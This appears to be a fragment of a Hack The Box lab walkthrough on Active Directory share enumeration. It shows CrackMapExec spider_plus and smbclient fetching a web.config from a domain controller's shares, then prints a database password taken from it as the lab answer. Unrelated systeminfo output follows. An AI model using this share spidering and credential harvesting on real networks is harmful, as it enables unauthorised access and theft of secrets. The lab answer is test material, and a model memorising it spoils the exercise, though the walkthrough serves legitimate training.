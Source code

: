 SPIDER_P... 172.16.7.3 445 DC01 [*] Started spidering plus with option:

SPIDER_P... 172.16.7.3 445 DC01 [*] DIR: ['print$']

SPIDER_P... 172.16.7.3 445 DC01 [*] EXT: ['ico', 'lnk']

SPIDER_P... 172.16.7.3 445 DC01 [*] SIZE: 51200

SPIDER_P... 172.16.7.3 445 DC01 [*] OUTPUT: /tmp/cme_spider_plus

​

┌─[htb-student@skills-par01]─[~]

└──╼ $cat /tmp/cme_spider_plus/172.16.7.3.json

"Department Shares": {

"IT/Private/Development/web.config": {

"atime_epoch": "2022-04-01 11:04:06",

"ctime_epoch": "2022-04-01 11:04:06",

"mtime_epoch": "2022-04-01 11:05:02",

"size": "1.17 KB"

​

┌─[htb-student@skills-par01]─[~]

└──╼ $smbclient -U BR086 \\\\172.16.7.3\\Department\ Shares

Enter WORKGROUP\BR086's password:

Try "help" to get a list of possible commands.

smb: \> get IT\Private\Development\web.config

getting file \IT\Private\Development\web.config of size 1203 as IT\Private\Development\web.config (235.0 KiloBytes/sec) (average 235.0 KiloBytes/sec)

smb: \> exit

​

┌─[htb-student@skills-par01]─[~]

└──╼ $cat IT\\Private\\Development\\web.config

<SNIP>

<connectionStrings>

<SNIP>User ID=netdb;Password=D@ta_bAse_adm1n!"/>

</connectionStrings>

<SNIP>

**Answer:** `**D@ta_bAse_adm1n!**`

### 


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0